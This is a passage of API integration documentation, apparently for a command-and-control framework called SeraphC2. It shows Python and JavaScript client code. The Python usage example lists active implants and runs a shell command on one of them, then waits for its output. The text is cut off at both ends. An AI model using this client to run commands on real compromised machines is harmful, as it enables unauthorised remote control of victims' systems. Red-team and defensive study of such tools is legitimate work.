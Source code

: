 ```python
        )
        response.raise_for_status()
        return response.json()["data"]
    
    def wait_for_command(self, command_id, max_wait=60):
        """Wait for command completion"""
        import time
        
        start_time = time.time()
        while time.time() - start_time < max_wait:
            response = self.session.get(
                f"{self.base_url}/api/commands/{command_id}"
            )
            response.raise_for_status()
            
            command = response.json()["data"]
            if command["status"] in ["completed", "failed", "timeout"]:
                return command
                
            time.sleep(1)
        
        raise TimeoutError("Command did not complete within timeout")

# Usage example
client = SeraphC2Client("https://api.seraphc2.com", "username", "password")

# Get active implants
implants = client.get_implants(status="active")
print(f"Found {len(implants)} active implants")

# Execute command on first implant
if implants:
    implant = implants[0]
    command = client.execute_command(
        implant["id"], 
        "shell", 
        "whoami"
    )
    
    # Wait for completion
    result = client.wait_for_command(command["id"])
    print(f"Command output: {result['result']['output']}")
```

### JavaScript/Node.js Integration

```javascript
const axios = require('axios');

class SeraphC2Client {
    constructor(baseUrl) {
        this.baseUrl = baseUrl;
        this.client = axios.create({
            baseURL: baseUrl,
            timeout: 30000
        });
        this.token = null;
    }
    
    async login(username, password, mfaToken = null) {
        const response = await this.client.post('/api/auth/login', {
            username,
            password,
```